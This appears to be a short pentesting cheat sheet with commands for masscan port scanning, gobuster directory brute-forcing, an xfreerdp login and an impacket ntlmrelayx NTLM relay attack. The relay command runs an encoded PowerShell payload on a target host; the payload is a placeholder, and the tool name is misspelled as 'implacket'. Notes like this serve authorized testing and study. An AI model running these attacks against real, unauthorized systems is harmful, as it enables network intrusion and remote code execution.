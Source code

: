 ### masscan
* linux 
    * setup firewall
    ```
    sudo iptables -A INPUT -p tcp --dport 55555 -j DROP
    ```
    * scan
    ```
    sudo masscan --ports 0-65535 --rate 15000 --src-port=55555 -oB /tmp/local.masscan 127.0.0.1
    ```
    * convert to grepable format
    ```
    masscan --readscan ~/labs/full.masscan -oG /tmp/full.grep
    ```
    * read grepable format
    ```
    cat /tmp/full.grep | sort
    grep -w 445/open /tmp/full.grep
    grep -w 445/open /tmp/full.grep | wc -l
    ```

### gobuster
* linux
    * directory
    ```
    gobuster dir -u http://192.168.0.0 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -t 1000 -o result.txt -k -x php,html --no-error
    ```
<br>

# RDP
### xfreerdp
* linux
    * normal connection
    ```
    xfreerdp /u:user /p:password /v:192.168.0.0
    ```
# NTLM Relay Attack
### ntlmrelayx
* linux
    * launce impacket-ntlmrelayx
    ```
    implacket-ntlmrelayx --no-http-server -smb2support -t 192.168.50.212 -c "powershell -enc <encoded paylaod>"
    ```
